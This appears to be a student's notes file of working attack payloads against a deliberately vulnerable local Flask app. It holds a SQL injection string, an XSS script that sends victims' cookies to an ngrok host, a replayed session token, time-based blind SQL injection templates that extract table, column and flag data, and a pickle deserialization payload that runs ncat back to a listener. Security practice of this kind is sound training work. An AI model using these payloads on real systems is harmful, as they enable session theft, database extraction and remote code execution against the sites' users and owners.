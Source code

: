 Flask
SQL
----------
' or 1=1; -- 


XSS
---------
ncat -klnvp 9000
ngrok http 9000
<script>document.write('<img src="http://340b-2406-3003-2077-4ea9-85b2-4692-1458-96f8.ngrok.io?cookie='+btoa(document.cookie)+'" />');</script>
curl -H "Cookie: token=8abae5d8bc89622b6bf5a76c948312f2" http://127.0.0.1:5000/XSS/admin


SQL Timing Based
--------------
https://www.youtube.com/watch?v=DYLDG_2Vs3E
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
"' or ((SELECT hex(substr(table_name,{},1)) FROM information_schema.tables limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- ".format(len(known_data)+1, x)
"' or ((SELECT hex(substr(column_name,{},1)) FROM information_schema.columns where table_name = 'supersecrettable' limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "
"user_name": "' or ((SELECT hex(substr(flag,{},1)) FROM supersecrettable limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "

XML Blind injection
----------------------------
https://www.youtube.com/watch?v=ySJwlMsFbco
Refer to script


XXE injection
------------------------
https://www.youtube.com/watch?v=kiGoOuuXWFI


Pickle Insecure Deserialization
---------------------------
Refer to script
ncat -klnvp 9000
curl -d "function=decode&input=\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x13ncat 127.0.0.1 9000\x94\x85\x94R\x94." http://127.0.0.1:5000/INSEC/


Java Insecure Deserialization
-------------------------
cd C:\Program Files\Java\jdk-14.0.2\bin\
java.exe -Dfile.encoding=Cp1252 -classpath "D:\GitAssignment\Flask\test\bin;D:\GitAssignment\Flask\test\lib\commons-collections4-4.0.jar" test.Client


